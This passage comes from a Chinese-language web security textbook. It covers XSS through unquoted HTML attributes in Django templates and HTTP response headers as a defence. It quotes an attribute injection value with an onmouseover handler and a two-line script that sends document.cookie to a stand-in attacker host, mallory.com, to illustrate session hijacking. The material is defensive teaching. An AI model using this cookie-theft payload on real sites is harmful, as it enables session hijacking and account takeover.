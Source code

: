 ❶ 中和 HTML

像其他所有尊重的模板引擎一样（适用于所有编程语言），Django 的模板引擎通过转义特殊的 HTML 字符来抵抗 XSS 攻击。不幸的是，并非所有恶意内容都包含特殊字符。在下一节中，您将了解到这个框架无法保护您免受的一个特殊情况。

### 14.3.2 HTML 属性引用

以下是一个简单模板的示例。如粗体所示，`request`参数确定了`class`属性的值。如果`request`参数等于普通的 CSS 类名，则此页面将按预期行为。另一方面，如果参数包含特殊的 HTML 字符，Django 将像往常一样对其进行转义：

```html
<html>
    <div class={{ request.GET.query_parameter }}>
        XSS without special characters
    </div>
</html>
```

您是否注意到`class`属性值未加引号？不幸的是，这意味着攻击者可以在不使用任何特殊 HTML 字符的情况下滥用此页面。例如，假设此页面属于 SpaceX 的一个重要系统。Mallory 以反射型 XSS 攻击的方式针对 Falcon 9 团队的技术人员 Charlie。现在想象一下当参数以`className` `onmouseover=javascript:launchRocket()`形式到达时会发生什么。

良好的 HTML 卫生习惯，而不是框架，是抵抗这种形式的 XSS 攻击的唯一方法。简单地引用 class 属性值可以确保`div`标签安全地呈现，无论模板变量值如何。请养成一个习惯，始终引用每个标签的每个属性。HTML 规范不要求单引号或双引号，但有时像这样的简单约定可以避免灾难。

在前面的两节中，您学会了如何通过响应主体来抵抗 XSS 攻击。在下一节中，您将学习如何通过响应头来实现这一点。

## 14.4 HTTP 响应头

*响应* *头*代表对抗 XSS 攻击非常重要的一层防御。这一层可以防止一些攻击，同时限制其他攻击的破坏程度。在本节中，您将从三个角度了解这个主题：

+   禁用 JavaScript 访问 cookie

+   禁用 MIME 嗅探

+   使用`X-XSS-Protection`头

这里每个项目的主要思想是通过限制浏览器对响应的操作来保护用户。换句话说，这是服务器如何将 PLP 应用于浏览器的方式。

### 14.4.1 禁用 JavaScript 访问 cookie

获取受害者的 cookie 是 XSS 攻击的一个常见目标。攻击者特别针对受害者的会话 ID cookie。下面的两行 JavaScript 演示了这是多么容易。

代码的第一行构造了一个 URL。URL 的域指向攻击者控制的服务器；URL 的参数是受害者的本地 Cookie 状态的副本。代码的第二行将此 URL 插入文档中，作为图像标签的源属性。这会触发对 mallory.com 的请求，将受害者的 Cookie 状态传递给攻击者。

```py
<script>
    const url = 'https:/./mallory.com/?loot=' + document.cookie;   # ❶
    document.write('<img src="' + url + '">');                    # ❷
</script>
```

❶ 读取受害者的 Cookie

❷ 将受害者的 Cookie 发送给攻击者

假设 Mallory 使用这个脚本来针对 Bob 进行反射型 XSS 攻击。一旦他的会话 ID 被泄露，Mallory 可以简单地使用它来假扮成 Bob 并在 bank.alice.com 上获取访问权限。她不必编写 JavaScript 来从他的银行账户转账；她可以直接通过 UI 来完成。图 14.3 描述了这种攻击，称为*会话劫持*。

